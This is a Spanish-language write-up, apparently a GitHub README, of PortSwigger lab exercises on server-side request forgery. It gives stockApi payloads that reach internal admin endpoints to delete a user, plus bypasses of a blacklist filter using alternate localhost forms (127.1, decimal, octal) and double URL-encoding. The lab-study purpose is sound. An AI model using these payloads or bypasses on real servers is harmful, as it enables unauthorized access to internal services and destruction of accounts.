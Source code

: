 # SSFR

La falsificación de solicitudes del lado del servidor (también conocida como SSRF) es una vulnerabilidad de seguridad web que permite a un atacante inducir a la aplicación del lado del servidor a realizar solicitudes a una ubicación no deseada.

En un ataque SSRF típico, el atacante puede hacer que el servidor establezca una conexión con servicios solo internos dentro de la infraestructura de la organización. En otros casos, pueden obligar al servidor a conectarse a sistemas externos arbitrarios, lo que podría filtrar datos confidenciales, como credenciales de autorización.

# Basic SSRF against the local server

Para este laboratorio nos damos cuenta que la peticion para revisar stock llama a una api 
entonces sopechamos que podemos que puede hacer peticiones a nombre del servidor


```
stockApi=http://localhost/admin/delete?username=carlos


```
Y borramos el usuario.


# Basic SSRF against another back-end system

Para este laboratorio usamos el intruder en el stock usamos el intruder con el payload brute force del 1 al 255
recordar usar el url encode.


```
stockApi=http://192.168.0.estenumerovaria:8080/admin/delete?username=carlos

```

Y borramos el usuario.

# SSRF with blacklist-based input filter

Para este lab se necesita bypasear la proteccion para que se permita acceder al /admin y posteriormente borrar un usuario:

## Local host y sus diferentes representaciones

Esta bloqueado el 127.0.0.1 entonces necesitamos usar otra representacion algunas de estas son:

```
-2130706433
-017700000001
-127.1
```
Se uso el 127.1 lo que nos hace pensar que podria ser un filtro que compara Regex. Despues se intenta meter al /admin pero esta bloqueada.

```
stockApi=http://127.1/admin
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65

```

Entonces lo que tenemos que hacer es Url encodear seleccionando el string clic derecho -> convert selection -> URL -> url-encode-all-the Characters.
Y lo hacemos 2 veces con lo cual bypasea la regex y permite que se borre al usuario.

```
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos

```
FIN


Referencia

> https://portswigger.net/web-security/ssrf
